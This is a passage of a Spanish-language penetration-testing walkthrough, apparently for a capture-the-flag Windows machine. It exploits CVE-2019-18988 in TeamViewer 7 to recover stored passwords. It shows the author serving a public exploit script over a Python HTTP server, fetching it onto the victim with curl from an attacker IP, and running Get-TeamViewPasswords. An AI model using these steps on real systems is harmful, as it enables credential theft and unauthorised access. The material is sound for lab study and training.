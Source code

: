 ```
nc.exe                        4348                            0      3,496 K
conhost.exe                   5216                            0     12,300 K
conhost.exe                   8056                            0     12,288 K
PrintSpoofer64.exe            8784                            0      3,704 K
powershell.exe                8896                            0    136,040 K
nc.exe                        9696                            0      4,704 K
conhost.exe                   8848                            0     12,280 K
cmd.exe                      10208                            0      4,612 K
svchost.exe                   8564                            0      6,228 K
tasklist.exe                  9568                            0      7,784 K
```

He visto que la `versión` de `TeamViewer` es la `7`

```
c:\Program Files (x86)\TeamViewer\Version7>
```

Esta `versión` es `vulnerable` al `CVE-2019-18988`, para `explotar` esta `vulnerabilidad` nos `descargamos` este `exploit` [https://github.com/zaphoxx/WatchTV/tree/master](https://github.com/zaphoxx/WatchTV/tree/master). Una vez descargado nos montamos un `servidor` con `python` en la misma ruta donde se encuentra el binario

```
# python -m http.server 80
```

Nos `descargamos` el `binario` en la máquina víctima

```
PS C:\Windows\Temp\Privesc> curl -O http://10.10.16.35/WatchTV.ps1
```

`Importamos` el `módulo` descargado, debemos usar una `powershell` para esto

```
PS C:\Windows\Temp\Privesc> Import-Module ./WatchTV.ps1
Import-Module ./WatchTV.ps1
```

`Obtenemos` una `contraseña`

```
PS C:\Windows\Temp\Privesc> Get-TeamViewPasswords
Get-TeamViewPasswords

#################L   .###############u
##################N.@################ *
##################################### '>.n=L
###############################RR#### 'b"  9
###########################R#"  .#### @   .*
########################^   .e#######P   e"
#####################R#    o########P   @
###################P" .e> 4#" '####F  .F
#################R  .###& '#   ####  .#>
#################b.o#####  #N  "##" ."'>
#########################  ##N  "^ .# '>
############## "########R  ###&    ## '>
##############  E"##P^9#E  ####   8## '>
##############  E  "  9#F  ####k .### '>
##############  E     9#N  ########## '>
##############  E     9##.u########## '>
############## o"     9############## d
**************#       ***************
ManniTV

[+] HKLM:\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version7
	[-] Version : 7.0.43148
```